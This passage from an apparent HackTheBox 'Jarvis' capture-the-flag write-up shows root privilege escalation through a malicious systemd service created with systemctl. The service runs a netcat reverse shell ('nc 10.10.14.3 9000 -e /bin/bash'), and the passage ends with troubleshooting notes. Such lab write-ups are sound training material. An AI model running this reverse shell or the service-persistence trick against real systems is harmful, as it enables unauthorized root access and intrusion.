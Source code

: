 ``` bash
ExecStart=/bin/bash /home/pepper/exploit
[Install]
WantedBy=multi-user.target
pepper@jarvis:~$ cat exploit
nc 10.10.14.3 9000 -e /bin/bash
pepper@jarvis:~$ systemctl link /home/pepper/exploit.service
pepper@jarvis:~$ systemctl enable /home/pepper/exploit.service --now
```
This resulted in reverse shell at port 9000 as user `root`.

![root-reverse-shell](../images/htb/Jarvis/jarvis-root-reverseshell.png)

We can now read the **root.txt** :D

 ``` bash
root@jarvis:/root$cat root.txt
d41d8c**************************
 ```


## **NOTE**

> I had some issues while creating and running the service.
> One of the error is `No such file or directory`, which was resolved when I gave the fullpath to service
  ``` bash
pepper@jarvis:~$ cat exploit.service
[Unit]
Description=rootshell
[Service]
ExecStart=/bin/bash /home/pepper/exploit
[Install]
WantedBy=multi-user.target
pepper@jarvis:~$ systemctl enable exploit.service --now
Failed to enable unit: File exploit.service: No such file or directory
```
> Also, when following [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), I observed that, the solution was creating service in `/tmp/` folder. For reasons that I am not sure of, that did not work
